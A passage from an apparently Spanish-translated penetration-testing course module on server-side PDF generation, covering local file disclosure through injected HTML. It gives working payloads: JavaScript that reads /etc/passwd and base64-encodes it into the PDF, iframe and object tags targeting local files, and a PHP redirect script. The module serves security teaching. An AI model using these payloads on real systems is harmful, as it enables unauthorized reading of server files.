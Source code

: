 Sin embargo, al hacerlo se crea una única línea larga que no cabe en la página PDF. Normalmente, la biblioteca de generación de PDF no inyectará saltos de línea, lo que provocará que la línea se trunque antes del final de la página:
![Bloque de texto que muestra una cadena codificada larga.](https://academy.hackthebox.com/storage/modules/204/pdflfi_2.png)

Podemos modificar fácilmente nuestra carga útil para inyectar saltos de línea cada 100 caracteres para garantizar que encaje en la página PDF:
```html
<script>
	function addNewlines(str) {
		var result = '';
		while (str.length > 0) {
		    result += str.substring(0, 100) + '\n';
			str = str.substring(100);
		}
		return result;
	}

	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(addNewlines(btoa(this.responseText)))
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

Después de hacerlo, finalmente podremos recuperar el archivo sin problemas. Ahora podemos copiar los datos codificados en base64 y decodificarlos usando cualquier herramienta que ignore los saltos de línea en la entrada codificada en base64, como por ejemplo [Ciberchef](https://gchq.github.io/CyberChef/):
![Bloque de texto que muestra una cadena codificada larga.](https://academy.hackthebox.com/storage/modules/204/pdflfi_3.png)

## Sin ejecución de JavaScript
Si el backend no ejecuta nuestro código JavaScript inyectado, debemos usar otras etiquetas HTML para mostrar archivos locales. Podemos probar las siguientes cargas útiles:
```html
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">
```

Sin embargo, al hacerlo en nuestro entorno de prueba solo se muestra un iframe vacío:
![Tarjeta con texto 'LFI' y un cuadro de texto vacío.](https://academy.hackthebox.com/storage/modules/204/pdflfi_4.png)

Afortunadamente, hay un truco más que podemos hacer en combinación con iframes. Como se discutió anteriormente en el `SSRF` En esta sección, algunas bibliotecas de generación de PDF muestran la respuesta a las solicitudes en iframes. Sin embargo, como podemos ver en la captura de pantalla anterior, a veces no podemos usar iframes para acceder a los archivos directamente. Sin embargo, podemos utilizar un `src` atributo que apunta a un servidor bajo nuestro control y redirige las solicitudes entrantes a un archivo local. Si la biblioteca está mal configurada, es posible que muestre el archivo. Podemos ejecutar el siguiente script PHP en nuestro servidor para hacerlo. El script responde a todas las solicitudes entrantes con una redirección HTTP 302 configurando el `Location` encabezado a un archivo local usando el `file` protocol:
```php
<?php header('Location: file://' . $_GET['url']); ?>
```
